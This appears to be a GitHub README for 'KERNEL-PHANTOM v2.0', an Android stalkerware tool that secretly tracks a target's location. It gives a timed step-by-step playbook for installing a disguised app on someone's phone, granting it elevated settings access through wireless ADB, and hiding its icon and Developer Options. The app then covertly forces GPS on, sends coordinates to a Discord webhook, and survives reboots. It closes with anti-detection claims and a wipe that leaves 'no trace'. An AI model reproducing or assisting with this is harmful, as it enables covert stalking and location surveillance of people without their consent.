



# PROJECT: KERNEL-PHANTOM v2.0
### Complete Tactical Deployment & Execution Roadmap

Silent GPS surveillance system utilizing **2-app deployment** with aShellYou Wireless ADB proxy for kernel-level GPS control.

---

## System Architecture



## Execution Flow

```mermaid
sequenceDiagram
    participant OP as Operative
    participant PH as Target Phone
    participant SV as StealthService
    participant DC as Discord Webhook

    rect rgb(26, 26, 46)
    Note over OP,PH: Phase 1-2: Deployment (65 sec)
    OP->>PH: Install APKs + Grant Permission
    OP->>PH: Open App → Allow all permissions
    PH->>PH: Icon vanishes, service starts
    OP->>PH: Uninstall aShellYou, hide Dev Options
    end

    rect rgb(15, 52, 96)
    Note over SV,DC: Phase 3: Phantom Loop (Forever)
    loop Every INTERVAL_MS
        SV->>PH: Settings.Secure.LOCATION_MODE = 3 (GPS ON)
        SV->>PH: FusedLocation.getCurrentLocation()
        PH-->>SV: lat, lon
        SV->>DC: POST coordinates + timestamp
        SV->>PH: Settings.Secure.LOCATION_MODE = 0 (GPS OFF)
        SV->>SV: Sleep until next alarm
    end
    end
```



---

## Phase 0: Pre-Deployment Configuration

Before compiling the APK, configure the payload in `Config.kt`:

**File:** `app/src/main/java/com/vivo/sync/Config.kt`

```kotlin
object Config {
    // 1. WEBHOOK — Your Discord channel webhook URL
    const val WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR_ID/YOUR_TOKEN"

    // 2. INTERVAL — GPS ping frequency (milliseconds)
    //      60000L   = 1 minute   (testing)
    //      300000L  = 5 minutes  (balanced)
    //      600000L  = 10 minutes (stealth recommended)
    //      1800000L = 30 minutes (ultra stealth)
    //      3600000L = 1 hour     (ghost mode)
    const val INTERVAL_MS = 300000L

    // 3. AUTO GPS OFF — Hide GPS icon between pings
    //      true  = GPS off after grab (recommended)
    //      false = GPS stays on permanently
    const val AUTO_TURN_OFF_GPS = true
}
```

| Parameter | What to Change | Impact |
|---|---|---|
| `WEBHOOK_URL` | Your Discord webhook URL | Where coordinates are sent |
| `INTERVAL_MS` | Millisecond value | Ping frequency |
| `AUTO_TURN_OFF_GPS` | `true` / `false` | GPS icon visibility |

> **Compile:** `.\gradlew clean assembleDebug`
> **Output:** `app/build/outputs/apk/debug/app-debug.apk`

---

## Phase 1: Infiltration (65 seconds)

### Prerequisites
- **VivoStealthGPS APK** (compiled with your webhook)
- **aShellYou APK** ([download from GitHub](https://github.com/DP-Hridayan/aShellYou/releases))

### Permission Verification Cascade

When "Android Services" is opened, it automatically walks through every required permission:



### Deployment Sequence

| # | Action | Time |
|---|---|---|
| 1 | Transfer & install both APKs | 15 sec |
| 2 | Settings → About → tap Build Number 7× → Developer Options → Wireless Debugging **ON** | 15 sec |
| 3 | Open aShellYou → **Wireless mode** → pair with code | 15 sec |
| 4 | Type: `pm grant com.vivo.sync android.permission.WRITE_SECURE_SETTINGS` | 5 sec |
| 5 | Open **"Android Services"** → tap Allow on all permission popups → "KERNEL BRIDGED" | 5 sec |
| 6 | Uninstall aShellYou → disable Developer Options | 10 sec |
| **Total** | | **~65 sec** |

> [!IMPORTANT]
> **WiFi required for pairing only.** No WiFi? Enable hotspot on YOUR phone, connect target to it, complete setup. Tracking runs on mobile data afterward.

> [!TIP]
> The app **will not hide its icon** until WRITE_SECURE_SETTINGS is confirmed. No more lockouts.

---

## Phase 2: Privilege Escalation (Technical Detail)

aShellYou in **Wireless mode** establishes a direct connection to the phone's internal ADB daemon via SPAKE2+ TLS 1.3 handshake. Commands execute as `shell` (uid 2000), which has `GRANT_RUNTIME_PERMISSIONS`.


> [!NOTE]
> Samsung Knox sees this as a legitimate developer operation. No alarms triggered. No binary execution. Pure Java TLS.

---

## Phase 3: KERNEL-PHANTOM Protocol (Operation)

With `WRITE_SECURE_SETTINGS` granted, the phantom loop runs silently forever:

1. **Wake** — `AlarmManager.setAndAllowWhileIdle()` fires every `INTERVAL_MS`
2. **GPS ON** — `Settings.Secure.putInt(LOCATION_MODE, 3)` — no screen flash, no popup
3. **Grab** — `FusedLocationProviderClient.getCurrentLocation(HIGH_ACCURACY)`
4. **Exfiltrate** — HTTP POST coordinates to Discord webhook
5. **GPS OFF** — `Settings.Secure.putInt(LOCATION_MODE, 0)` — icon vanishes
6. **Sleep** — Service stops, waits for next alarm

### Survival Mechanisms
| Mechanism | Purpose |
|---|---|
| `BootReceiver` | Restarts service after phone reboot |
| `WatchdogService` | Respawns `StealthService` if killed |
| `AlarmManager` | Persistent alarm loop survives app death |
| `START_STICKY` | OS auto-restarts service if killed |
| Battery Optimization Bypass | Prevents Doze from killing service |

---

## Phase 4: Eradication (The Wipe)

To completely remove the payload and restore the device to factory-fresh state:

| # | Action |
|---|---|
| 1 | Reinstall **aShellYou**, re-pair via Wireless Debugging |
| 2 | `pm revoke com.vivo.sync android.permission.WRITE_SECURE_SETTINGS` |
| 3 | `pm uninstall com.vivo.sync` |
| 4 | Uninstall aShellYou |
| 5 | Disable Developer Options |

> **Result:** Device is 100% clean. No permissions. No payload. No logs. No trace.

---

## Component Map



---

## Summary

| Metric | Value |
|---|---|
| **Apps Required** | 2 (VivoStealthGPS + aShellYou) |
| **Deployment Time** | ~65 seconds |
| **Requires Root** | No |
| **Requires PC** | No |
| **Survives Reboot** | Yes |
| **GPS Force Control** | Yes (even if target turns GPS off) |
| **Permission Safety** | Icon won't vanish until all permissions confirmed |
| **Detection Risk** | Minimal — legitimate API abuse |
| **Network** | WiFi (setup only) → Mobile data (tracking) |
| **Cleanup Time** | ~30 seconds |
